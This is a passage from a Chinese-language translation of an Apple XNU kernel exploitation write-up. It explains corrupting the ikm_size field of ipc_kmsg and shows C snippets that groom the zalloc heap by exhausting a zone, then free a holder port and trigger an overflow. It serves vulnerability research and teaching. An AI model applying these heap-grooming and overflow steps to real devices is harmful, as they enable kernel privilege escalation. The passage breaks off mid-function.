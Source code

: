 这些代码片段都使用了通过内核任务端口读取内核内存的mach_portal利用代码的rk64（）函数。

我通过试错法来确定哪些值覆盖ikm_size后可以使异常消息的受控部分与下一个堆对象的开头对齐。

<br>

**get-where-what**

解决这个谜题的最后一步是要能够找到受控数据在哪里。

在本地提权攻击的上下文中实现该目的的一种方法是将这种数据放置到用户空间中，但像x86上的SMAP和iPhone 7上的AMCC硬件这样的硬件安全措施使得这种方法非常困难。因此，我们将构建一个新的原语，以找出我们的ipc_kmsg缓冲区在内核内存中的位置。

直到现在还没有触及的一个方面是如何将ipc_kmsg分配到我们要溢出的缓冲区边上。Stefan Esser曾经在一些演讲中谈过近几年zalloc堆的演变情况，最新的演讲具有区释放列表随机化的细节。

在使用上述内省技术对堆行为进行实验的过程中，我注意到某些尺寸的类实际上仍然以接近线性的方式进行分配（后面的分配是连续的）。事实证明，这是由于zalloc是从较低级别的分配器获取内存页的；通过耗尽特定区域，我们可以强制zalloc获取新页面，如果我们的分配大小接近页面大小，我们就能立即将该页面返回。

这意味着我们可以使用如下代码： 



```
int prealloc_size = 0x900; // kalloc.4096
  for (int i = 0; i &lt; 2000; i++){
    prealloc_port(prealloc_size);
  }
  // these will be contiguous now, convenient!
  mach_port_t holder = prealloc_port(prealloc_size);
  mach_port_t first_port = prealloc_port(prealloc_size);
  mach_port_t second_port = prealloc_port(prealloc_size);
```

为了获得如下所示的堆布局： 

[![](./img/86003/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p0.ssl.qhimg.com/t0107c650497d561428.png)

该方法并非十分可靠；对于具有更多RAM的设备来说，您需要增加区耗尽循环的迭代次数。这不是一个完美的技术，但对于一个研究工具来说，效果非常好。

我们现在可以释放holder端口，触发溢出，这将重用holder所在的槽并溢出到first_port，然后再使用另一个holder端口抓取这个槽： 



```
// free the holder:
  mach_port_destroy(mach_task_self(), holder);
  // reallocate the holder and overflow out of it
  uint64_t overflow_bytes[] = {0x1104,0,0,0,0,0,0,0};
  do_overflow(0x1000, 64, overflow_bytes);
  // grab the holder again
  holder = prealloc_port(prealloc_size);
```

[![](./img/86003/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p0.ssl.qhimg.com/t0111a233dda741491e.png)

溢出已将属于第一个端口的预先分配的ipc_kmsg的ikm_size字段更改为0x1104。

ipc_kmsg结构由ipc_get_kmsg_from_kernel填写后，将通过ipc_kmsg_enqueue放入目标端口的待处理消息队列： 



```
void ipc_kmsg_enqueue(ipc_kmsg_queue_t queue,
                      ipc_kmsg_t       kmsg)
{
  ipc_kmsg_t first = queue-&gt;ikmq_base;
  ipc_kmsg_t last;
  if (first == IKM_NULL) {
    queue-&gt;ikmq_base = kmsg;
    kmsg-&gt;ikm_next = kmsg;
    kmsg-&gt;ikm_prev = kmsg;
  } else {
    last = first-&gt;ikm_prev;
    kmsg-&gt;ikm_next = first;
    kmsg-&gt;ikm_prev = last;
```